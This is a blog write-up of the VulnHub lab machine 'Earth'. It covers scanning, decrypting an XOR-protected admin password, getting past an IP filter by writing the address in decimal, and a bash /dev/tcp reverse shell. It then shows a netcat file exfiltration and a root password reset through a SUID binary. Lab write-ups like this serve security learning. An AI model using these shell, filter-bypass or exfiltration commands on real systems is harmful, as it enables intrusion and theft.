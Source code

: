 ```yaml
---
layout: post
title:  "Vulnhub: Earth"
date:   2021-11-09 20:00:00 +1000
category: hacking
---
```


This is [THE PLANETS: EARTH](https://www.vulnhub.com/entry/the-planets-earth,755/) from VulnHub.

>Difficulty: Easy

>Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy, depending on your experience.

Let's go.

{% highlight shell %}
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-title: Bad Request (400)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the HTTP Server on Fedora
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
| tls-alpn: 
|_  http/1.1
MAC Address: 08:00:27:32:4F:91 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
{% endhighlight %} 

Lemme highlight a line from the above nmap output:

**DNS:earth.local, DNS:terratest.earth.local**

Add these to /etc/hosts, and we enumerate. Note we've got HTTP and HTTPS.

Here: **https://terratest.earth.local/robots.txt** we find one interesting entry:

>Disallow: /testingnotes.*

**https://terratest.earth.local/testingnotes.txt**:

>Testing secure messaging system notes:   
*Using XOR encryption as the algorithm, should be safe as used in RSA.  
*Earth has confirmed they have received our sent messages.  
*testdata.txt was used to test encryption.  
*terra used as username for admin portal.  
Todo:  
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?  
*Need to test different key lengths to protect against bruteforce. How long should the key be?  
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.  

At **http://earth.local/** we find Earth Secure Messaging Service with some existing messages, including the very first one:

>2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000....etc

Since we know it is *XOR* with **testdata.txt** we can reverse it, we get the file at **https://terratest.earth.local/testdata.txt** which says:

>According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.

So our recipe is decode from hex then XOR with the key above and we get:

>earthclimatechangebad4humans

Now what? We have an */admin* portal at **http://earth.local/admin/** where we can login with **terra:earthclimatechangebad4humans**, and we get an admin CLI tool. We can run system commands with this, but trying anything with an IP in it (like a shell) prompts the error:

>Remote connections are forbidden.

We can encode our IP as decimal (e.g. [here](https://www.ipaddressguide.com/ip)) and my local IP 192.168.1.210 becomes 3232235986, which does not trip the filter; we can get a shell in this manner, e.g.

``
bash -i >& /dev/tcp/3232235986/1234 0>&1
``

Gets me:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/earth]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.125] 43052
bash: cannot set terminal process group (834): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ 
{% endhighlight %} 

## Root
Enumerating the local filesystem reveals an unusual SUID binary: 

``
-rwsr-xr-x. 1 root root 24K Oct 12 22:18 /usr/bin/reset_root (Unknown SUID binary)
``

We have *strings*, and it appears to reset the root password under certain conditions:

{% highlight shell %}
bash-5.1$ strings /usr/bin/reset_root
strings /usr/bin/reset_root
/lib64/ld-linux-x86-64.so.2
setuid
puts
system
access
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=@@@
paleblueH
]\UH
credentiH
als rootH
:theEartH
hisflat
[]A\A]A^A_
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
# snipped
{% endhighlight %} 

I exfiltrate the file with netcat:

``
bash-5.1$ nc -w 3 192.168.1.210 9999 < reset_root
``

and 

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/earth]
└─# nc -lnvp 9999 > reset_root                                                            
listening on [any] 9999 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.125] 57646
{% endhighlight %} 

Running ltrace (not on the system) reveals the preconditions:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/earth]
└─# ltrace ./reset_root
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                                         = 38
access("/dev/shm/kHgTFI5G", 0)                                                                      = -1
access("/dev/shm/Zw7bV9U5", 0)                                                                      = -1
access("/tmp/kcM0Wewe", 0)                                                                          = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                                         = 44
+++ exited (status 0) +++
{% endhighlight %} 

We can fix that:

{% highlight shell %}
bash-5.1$ touch /dev/shm/kHgTFI5G
touch /dev/shm/kHgTFI5G
bash-5.1$ touch /dev/shm/Zw7bV9U5
touch /dev/shm/Zw7bV9U5
bash-5.1$ touch /tmp/kcM0Wewe
touch /tmp/kcM0Wewe
bash-5.1$ /usr/bin/reset_root
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
bash-5.1$ su root
su root
Password: Earth

[root@earth tmp]# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
earth
Tue Nov  9 10:09:36 UTC 2021
[root@earth tmp]#
{% endhighlight %} 

And we are done. Not bad, not bad.
